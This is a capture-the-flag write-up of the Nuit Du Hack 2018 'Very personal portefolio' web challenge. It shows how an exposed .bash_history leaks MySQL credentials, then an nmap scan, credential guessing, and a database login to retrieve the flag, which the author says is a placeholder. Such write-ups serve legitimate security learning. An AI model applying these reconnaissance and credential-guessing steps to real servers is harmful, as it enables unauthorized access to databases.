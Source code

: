# Very personal portefolio

**"Very personal portefolio"** was a 100-point Web challenge at **Nuit Du Hack 2018**. 

## Challenge description

Because we can't access the platform anymore, this challenge shall remain without description for now.
> Note: this writeup will most likely be updated with more details once the platform is online again.


We are provided with a [url to a website](http://verypersonalportefolio.wargame.rocks).
Since the platform has been taken down for now, this writeup will try to be as accurate as possible, but may lack some visual material.

## Discovery

The page opens to a static HTML page using exactly [this template](https://www.themezy.com/free-website-templates/54-prologue-portfolio-free-responsive-template) I believe. When looking at the source, we can observe a commented line that contains the URL `http://verypersonalportefolio.wargame.rocks/~francois/<somethingaboutimages>`.

By searching for interesting files in the **~francois** directory, we figure out that the folder is most likely a symlink to a home folder by stumbling upon a **.bashrc** file (*with is very uninteresting*) and a **.bash_history** file (*which is very interesting*).

## Analyzing .bash_history

The file contains a lot of different commands, some of them creating or opening files, but most of them do not work. At the end of the file are some lines where it seems that François (*the likely name of the user*) is trying to connect to a **MySQL database**, that look like that:

```
mysql --user ierg457srg76fgyg --password francois verypersonalportefolio.wargame.rocks
mysql -user francois -password aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g/dj1kUXc0dzlXZ1hjUQ verypersonalportefolio.wargame.rocks
mysql -user aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g/dj1kUXc0dzlXZ1hjUQ -password francois verypersonalportefolio.wargame.rocks
...
```

So, it seems like François is not quite sure how to connect to his MySQL database. First things first, we run `nmap` on the target:

```bash
~$ nmap verypersonalportefolio.wargame.rocks
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-30 22:35 CEST
Nmap scan report for verypersonalportefolio.wargame.rocks (192.168.165.14)
Host is up (0.01s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
80/tcp   open  http
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 0.7 seconds
```

**Bingpot!** We can access MySQL from outside the server.

## Connecting to the database

Now, all that's left is to figure out how to connect to the database (*i.e. what are the right credentials?*). We try all the possible permutations

```
ierg457srg76fgyg / francois
ierg457srg76fgyg / aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g
francois / ierg457srg76fgyg
francois / aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g
aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g / ierg457srg76fgyg
aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g / francois
```

but nothing seems to work… until we figure out that François is so bad at sending commands, that he sometimes writes `-password` instead of `--password`, which is like passing the password **assword** to the command.

With this in mind, we try some more and figure out the correct credentials:

```bash
~$ mysql --user ierg457srg76fgyg -password -h verypersonalportefolio.wargame.rocks
```

Now that we're connected to the database, it's just a matter of retrieving the flag:

```bash
mysql> show databases;
+-----------
| Database |
+-----------
| NDH_2018 |
+----------+
1 row in set (0.00 sec)
mysql> use NDH_2018;
mysql> show tables;
+--------------------+
| Tables_in_NDH_2018 |
+--------------------+
| NDH                |
+--------------------+
1 row in set (0.00 sec)
> select * from NDH;
# And here we get some flag: ndh16_thisisarandomflagidonthavetherightone
```

And **flagged**!

**Flag: ndh16_thisisarandomflagidonthavetherightone**

## Wrapping up

There was nothing too impressive about this challenge, but it reminds us that we have to be painfully detail-oriented when analyzing a **luser**'s command history! Overall, it was a fun warm up!
